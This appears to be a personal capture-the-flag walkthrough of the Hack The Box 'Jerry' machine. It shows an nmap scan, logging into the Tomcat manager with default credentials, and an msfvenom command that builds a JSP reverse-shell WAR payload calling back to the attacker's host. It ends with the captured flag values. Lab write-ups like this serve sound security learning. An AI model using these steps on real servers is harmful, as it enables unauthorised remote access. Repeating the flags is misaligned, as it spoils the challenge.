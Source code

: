
# Machine Info




# Walkthrough

1. Nmap scan result in the found of Tomcat service Website running in 8080 port.
	- ┌─[ghoth@parrot]─[~/HTB/machines/jerry]
		└──╼ $cat serviceScan.nmap 
		# Nmap 7.94SVN scan initiated Sat Jan 11 00:40:06 2025 as: nmap -sC -sV -p- -Pn --min-rate 5000 -oA serviceScan 10.10.10.95
		Nmap scan report for 10.10.10.95 (10.10.10.95)
		Host is up (0.22s latency).
		Not shown: 65534 filtered tcp ports (no-response)
		PORT     STATE SERVICE VERSION
		8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
		|_http-title: Apache Tomcat/7.0.88
		|_http-favicon: Apache Tomcat
		|_http-server-header: Apache-Coyote/1.1
		
		Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
		# Nmap done at Sat Jan 11 00:41:00 2025 -- 1 IP address (1 host up) scanned in 53.90 seconds


2. Home page of the website:
	1. ![[Pasted image 20250221153014.png]]
	
3. When visiting the manager app, It ask for credential. Cancelling the login revel the credential:
	1. Username -> tomcat
	2. Password -> s3cret
	3. ![[Pasted image 20250221152747.png]]

4. Landing page after loggin in:
	   ![[Pasted image 20250221171429.png]]

5. The page seem to be allowing the user to upload .war file. 
	1. ![[Pasted image 20250221171547.png]]

6. Then i generate a msfvenom .war file paylaod for reverse shell. and named it payload.war.
	- ┌─[✗]─[ghoth@parrot]─[~/HTB/machines/jerry]
		└──╼ $msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.4 LPORT=8888 -f war -o payload.war
		Payload size: 1096 bytes
		Final size of war file: 1096 bytes
		Saved as: payload.war

7. The uploaded file seem to be appear in the main page table, where we can click and run.
	1. ![[Pasted image 20250221171827.png]]

8. Before executing the payload, I had already started my netcat server listening in the port 8888. And we got the connection after executing the payload. 
	![[Pasted image 20250221165413.png]]

9. The shell we got seem to have administrator authority (High authority).
	![[Pasted image 20250221165700.png]]

10. Then we found the flag in the flag directory in desktop of Administrator user.  
	

	![[Pasted image 20250221171038.png]]
	

FLAG:
	user.txt
	7004dbcef0f854e0fb401875f26ebd00
	
	root.txt
	04a8b36e1545a455393d067e772fe90e
